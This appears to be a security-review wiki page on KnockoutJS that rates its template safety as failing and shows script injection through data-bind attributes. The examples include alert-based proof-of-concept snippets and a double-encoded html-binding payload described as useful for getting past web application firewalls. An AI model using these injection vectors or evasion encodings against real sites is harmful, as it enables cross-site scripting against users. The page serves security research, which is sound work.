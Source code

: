 

# Introduction #

"Knockout is a standalone JavaScript implementation of the Model-View-ViewModel pattern with templates. The underlying principles are therefore:

  * a clear separation between domain data, view components and data to be displayed
  * the presence of a clearly defined layer of specialized code to manage the relationships between the view components

The latter leverages the native event management features of the Javascript language.

These features streamline and simplify the specification of complex relationships between view components, which in turn make the display more responsive and the user experience richer.

Knockout was developed and is maintained by Steve Sanderson, a Microsoft employee. The author stresses that this is a personal open-source project, and not a Microsoft product"

From http://en.wikipedia.org/wiki/KnockoutJS

# Quick Facts #

  * [KnockoutJS 3.0.0 (Uncompressed)](http://knockoutjs.com/downloads/knockout-3.0.0.debug.js)
  * Usage Stats http://trends.builtwith.com/javascript/KnockoutJS


  * **{}SEC-A** <font color='red'><b>FAIL</b></font> Template expressions are equivalent to `eval`
  * **{}SEC-B** <font color='red'><b>FAIL</b></font> No sandbox or isolated execution scope
  * **{}SEC-C** <font color='red'><b>FAIL</b></font> JavaScript code will be executed from within `data` attributes
  * **{}SEC-D** <font color='red'><b>FAIL</b></font> No enforced separation, no obvious way to outsource templates to static files
  * **{}SEC-E** <font color='red'><b>FAIL</b></font> No dedicated security response program, no security@knockoutjs.com address

# Injection Attacks #

## KnockoutJS 2.3.0 ##

KnockoutJS is attackers best friend since it allows to execute arbitrary JavaScript by injecting into HTML5 data attributes. Any labelled JavaScript code that is being found inside a `data-bind` attribute will be evaluated once the bindings are being applied by KnockoutJS.

The following "paste-and-go"-ready code example demonstrates that.

```
<script src="http://knockoutjs.com/downloads/knockout-2.3.0.js"></script>
<div data-bind="x:alert(1)" />
<script> 
	ko.applyBindings();
</script>
```

## KnockoutJS 3.0.0 ##

Not much has changed - only the example above doesn't work any more. Well, with some quick changes applied we can get our `alert` back and do the same as we did before. In essence, the label of our binding must match a binding provided by KnockoutJS - and there's quite a bunch of them.

```
<script src="http://knockoutjs.com/downloads/knockout-3.0.0.debug.js"></script>
<div data-bind="click: alert(1)"></div>
<div data-bind="value: alert(2)"></div>
<div data-bind="style: alert(3)"></div>
...
<select data-bind="options: alert(99)"></select>
<script> 
ko.applyBindings();
</script>
```

Fellow contributor [@jmaxxz](https://twitter.com/jmaxxz) pointed out the following: Even worse than the JavaScript execution via `data-bind` is the abuse HTML bindings to inject almost arbitrary content - with double-encoded payload. This is especially helpful if any form of WAF is in the way.

```
<script src="http://knockoutjs.com/downloads/knockout-3.0.0.debug.js"></script>
<div data-bind="html: '&#x5c;x3cimg&#x5c;x20src=x&#x5c;x20onerror=alert&#x5c;x281&#x5c;x29&#x5c;x3e'"></div>
<script> 
ko.applyBindings();
</script>
```

## Eval via Function ##

As can be seen, very much like CanJS, KnockoutJS uses a string containing a `with()` block to wrap the template data and then send it to the `Function` constructor for direct string-to-code.

```
parseBindingsString: function(b, c, d) {
    try {
        var f;
        if (!(f = this.Na[b])) {
            var g = this.Na, e, m = "with($context){with($data||{}){return{" + a.g.ea(b) + "}}}";
            e = new Function("$context", "$element", m);
            f = g[b] = e
        }
        return f(c, d)
    } catch (h) {
        throw h.message = "Unable to parse bindings.\nBindings value: " + b + "\nMessage: " + h.message, h;
    }
}
```

In KnockoutJS 3.0.0 - the example above shows code from 2.3.0 - things have changed a little bit. The way our code is being executed is still the same though: the value of `data-bind` is being parsed and parts of it are passed to the function constructor.

```
    function createBindingsStringEvaluator(bindingsString, options) {
        // Build the source for a function that evaluates "expression"
        // For each scope variable, add an extra level of "with" nesting
        // Example result: with(sc1) { with(sc0) { return (expression) } }
        var rewrittenBindings = ko.expressionRewriting.preProcessBindings(bindingsString, options),
            functionBody = "with($context){with($data||{}){return{" + rewrittenBindings + "}}}";
        return new Function("$context", "$element", functionBody);
    }
```

## Binding via innerHTML ##

KnockoutJS uses `innerHTML` to add markup to the document - and does some magic when coming to elements that shouldn't stand for themselves such as table heads etc.:

```
    function simpleHtmlParse(html) {
        // Based on jQuery's "clean" function, but only accounting for table-related elements.
        // If you have referenced jQuery, this won't be used anyway - KO will use jQuery's "clean" function directly

        // Note that there's still an issue in IE < 9 whereby it will discard comment nodes that are the first child of
        // a descendant node. For example: "<div><!-- mycomment -->abc</div>" will get parsed as "<div>abc</div>"
        // This won't affect anyone who has referenced jQuery, and there's always the workaround of inserting a dummy node
        // (possibly a text node) in front of the comment. So, KO does not attempt to workaround this IE issue automatically at present.

        // Trim whitespace, otherwise indexOf won't work as expected
        var tags = ko.utils.stringTrim(html).toLowerCase(), div = document.createElement("div");

        // Finds the first match from the left column, and returns the corresponding "wrap" data from the right column
        var wrap = tags.match(/^<(thead|tbody|tfoot)/)              && [1, "<table>", "</table>"] ||
                   !tags.indexOf("<tr")                             && [2, "<table><tbody>", "</tbody></table>"] ||
                   (!tags.indexOf("<td") || !tags.indexOf("<th"))   && [3, "<table><tbody><tr>", "</tr></tbody></table>"] ||
                   /* anything else */                                 [0, "", ""];

        // Go to html and back, then peel off extra wrappers
        // Note that we always prefix with some dummy text, because otherwise, IE<9 will strip out leading comment nodes in descendants. Total madness.
        var markup = "ignored<div>" + wrap[1] + html + wrap[2] + "</div>";
        if (typeof window['innerShiv'] == "function") {
            div.appendChild(window['innerShiv'](markup));
        } else {
            div.innerHTML = markup;
        }

        // Move to the right depth
        while (wrap[0]--)
            div = div.lastChild;

        return ko.utils.makeArray(div.lastChild.childNodes);
    }
```